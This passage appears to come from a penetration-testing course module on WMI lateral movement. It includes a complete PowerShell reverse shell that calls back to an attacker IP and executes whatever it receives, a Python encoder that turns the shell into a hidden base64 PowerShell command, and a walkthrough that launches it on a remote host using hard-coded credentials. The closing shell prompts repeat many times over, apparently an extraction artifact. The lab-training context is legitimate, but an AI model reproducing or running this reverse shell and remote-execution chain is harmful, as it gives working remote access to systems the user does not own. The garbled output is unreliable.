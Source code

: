 To further improve our craft, let's replace the previous payload with a full reverse shell written in PowerShell.

First, we'll encode the PowerShell reverse shell, so we don't need to escape any special characters when inserting it as a WMI payload.

The following Python code encodes the PowerShell reverse shell to base64 contained in the _payload_ variable and then prints the result to standard output.

Reviewing the entire PowerShell payload is outside the scope of this Module.

We need to replace the highlighted IP and port with the ones of our attacker Kali machine.

```
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

> Listing 6 - Executing the WMI PowerShell payload.

Once we have saved the Python script, we can run it and retrieve the output to use later.

```
kali@kali:~$ python3 encode.py
powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAU...
OwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

> Listing 7 - Running the base64 encoder Python script

After setting up a Netcat listener on port 443 on our Kali machine, we can move on to client74 and run the PowerShell WMI script with the newly generated encoded reverse shell payload.

```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> $Options = New-CimSessionOption -Protocol DCOM
PS C:\Users\jeff> $Session = New-Cimsession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $Options

PS C:\Users\jeff> $Command = 'powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA';

PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3948           0 192.168.50.73
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname
[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname